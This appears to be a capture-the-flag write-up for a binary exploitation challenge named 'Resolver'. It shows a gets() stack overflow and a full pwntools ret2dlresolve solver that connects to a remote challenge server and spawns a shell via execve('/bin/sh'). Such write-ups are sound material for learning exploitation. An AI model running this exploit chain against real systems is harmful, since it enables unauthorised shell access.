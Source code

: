 # Resolver
![challenge](../images/Resolver.png)

## Source Code
```c
void vuln(void)

{
  char local_28 [32];
  
  gets(local_28);
  return;
}
```
```c
undefined8 main(void)

{
  setup();
  vuln();
  return 0;
}
```

## Overview
Before diving into the exploitation process let's check the security of the binary.<br>
![checksec](../images/Resolver_checksec.png)

This challenge is <strong>ret2dlresolve</strong> attack which means we need to tricks the binary into resolving a function of our choice such as ```execve('/bin/sh')``` into the PLT (Procedure Linkage Table) as it was originally part of the binary.

## Solver
```py
#!/usr/bin/env python3
from pwn import *

context.log_level = 'DEBUG'

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184',10018)

rop = ROP(elf)
d = Ret2dlresolvePayload(elf, symbol='execve', args=['/bin/sh',0])
rop.raw(0x000000000040101a)
rop.gets(d.data_addr)
rop.ret2dlresolve(d)

payload = fit({32: rop.chain()})  + b'\n' + d.payload

p.sendline(payload)
p.interactive()
p.close()
```
